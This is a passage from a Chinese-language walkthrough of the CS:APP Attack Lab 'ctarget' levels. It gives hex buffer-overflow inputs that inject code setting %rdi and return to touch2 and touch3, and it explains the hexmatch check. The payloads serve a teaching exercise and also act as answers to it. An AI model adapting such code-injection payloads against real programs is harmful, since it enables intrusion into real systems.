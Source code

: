   - 最后我们的输入数据如下

      ```text
      48 c7 c7 fa 97 b9 59 68
      ec 17 40 00 c3 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      78 dc 61 55 00 00 00 00  
      ```

    通过当前关卡的截图如下  
    ![Wrong](img/csapp-lab-writeup/ctarget_touch2.png)  
- **phase3**
  - `touch3`函数与`touch2`函数类似，都存在着一个比较的判断，通过该判断即可通过当前关卡。  
    所不同的是，`touch3`函数中使用另一个函数`hexmatch`进行判断。`hexmatch`传入的参数分别为`&cookie`与`touch3`的第一个参数`%rdi`。  
    ![Wrong](img/csapp-lab-writeup/ctarget_3_2.png)  
  - 分析`hexmatch`函数，可以发现，当栈溢出时刻的`%rdi == 0x5561dc13`时，即可通过当前关卡。  
    ![Wrong](img/csapp-lab-writeup/ctarget_3_1.png)  
  - 由于该关卡修改的寄存器与第二关的寄存器一致，所以可以直接修改第二关的输入数据，即可得到当前关卡的输入数据。

    ```text
    48 c7 c7 13 dc 61 55 68
    fa 18 40 00 c3 31 31 31
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31
    78 dc 61 55 00 00 00 00
    ```
